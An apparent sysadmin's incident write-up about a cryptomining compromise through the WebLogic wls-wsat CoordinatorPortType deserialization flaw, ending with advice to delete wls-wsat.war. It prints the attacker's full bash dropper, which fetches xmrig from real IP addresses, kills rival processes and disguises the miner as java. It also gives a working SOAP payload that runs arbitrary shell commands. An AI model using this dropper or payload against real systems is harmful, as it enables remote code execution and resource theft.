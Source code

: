 # Weblogic Component Vulnerability /wls-wsat/CoordinatorPortType wls-wsat.war

It was the day after new year. In one morning all of our java instances has been killed. We first suspected there was a manual reboot. 
So we started our application server as usual. We first started our node managers. Then started our admin server and our java applications.
While we were working on these jobs, suddenly in one machine all of our java processes had been killed. We immediately informed our product owner saying that there could be a manual intervention somewhere else even if we could not find the logged in user. We also suspected that the ssh user had been compromised then changed the password with a relief.

After two hours everything went normally. Then the ultimate catastrophic event happened. Our java instances had been killed again. When we check the processes there were two java processes which eat up the cpu like a hungry pig. We decided not to kill these processes but examine them. When we inspect it with netstat we saw that they send packages to the following IP address.

```
http://145.239.0.84/
Mining Pool Online
```

We checked the history and could not believe our eyes.

```
#!/bin/bash
sPid=$$
mPid=''
mName='java'
checkCmd() {     command -v $1 >/dev/null 2>&1; }
downloader () {     if checkCmd wget; then         wget $1 -O $2 ;     elif checkCmd curl; then         curl $1 -o $2;     elif checkCmd python; then         if [ "`python -c "import sys; print(sys.version_info[0])"`" = "3" ]; then             python -c "from urllib.request import urlopen; u = urlopen('"$1"'); localFile = open('"$2"', 'wb'); localFile.write(u.read()); localFile.close()";         else             python -c "from urllib import urlopen; u = urlopen('"$1"'); localFile = open('"$2"', 'wb'); localFile.write(u.read()); localFile.close()";         fi;     else         cat < /dev/tcp/165.227.215.25/5555 > $2;     fi;     chmod +x $2; }
killer() {     for tmpVar in `ps -aeo pid,%cpu,command | sed 1d | sort -k 2 | tail -n 10 | awk '{print $1}'`; do         if [ $tmpVar = $sPid ]; then             continue;         fi;         if [ $tmpVar = $mPid ]; then             continue;         fi;         if [ `ps -o %cpu $tmpVar | sed 1d | sed 's/\..*//g'` -ge 60 ]; then             if [ `ps $tmpVar | sed 1d | awk '{print $5}' | grep java` ]; then                 continue;             fi;             if [ `ps $tmpVar | sed 1d | awk '{print $5}' | grep sh` ]; then                 continue;             fi;             if [ `ps $tmpVar | sed 1d | awk '{print $5}' | grep bash` ]; then                 continue;             fi;             kill -9 $tmpVar;             rm -f `ls -l /proc/$tmpVar/exe 2>&1 | sed 's/.*-> //g'`;         fi;     done; }
runer() {     if [ -z "$mPid" ]; then         if [ ! -f $mName ]; then             downloader http://165.227.215.25/xmrig-y $mName;         fi;         chmod +x ./$mName;         ./$mName;     fi;     mPid=`ps -eo pid,command | grep $mName | head -n 1 | awk '{print $1}'`; }
pkill python; pkill $mName
downloader http://165.227.215.25/xmrig-y $mName
```

Someone had been killed all of our processes except its process. Downloaded a modified executable named xmrig which was apparently a Monero (XMR) CPU miner. Started this executable and started mining XMR on our servers. The process was named as java and was sending data to the Mining Pool Online (http://145.239.0.84/)

We were shocked. After a couple of hours of blaming and panicking we discovered that it was a sneaky attack on our WebLogic servers.

There is a path in WebLogic server wls-wsat/CoordinatorPortType which can be used to execute any kind of soap request. So when I post this request.

```
POST your_host/wls-wsat/CoordinatorPortType HTTP 1.1

Host: host_name
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: wp-settings-time-1=1506773666
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Connection: close

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">;;
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">;;
            <java version="1.8" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>ls -l >> a_random_file.txt |bash</string>
                        </void>
                    </array>
                    <void method="start" />
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body />
</soapenv:Envelope>

```

The soap request has been executed. The request mainly creates a ProcessBuilder object and executes it!!!
So only with a HTTP request, I can execute any command on the remote server!!!

We were actually happy when we discovered that. 

Our solution was to delete the responsible war. You can find it with the following command.

```
locate wls-wsat.war
```

Just delete it. Do not spend time for patching your useless weblogic server. 
Weblogic sucks!!!
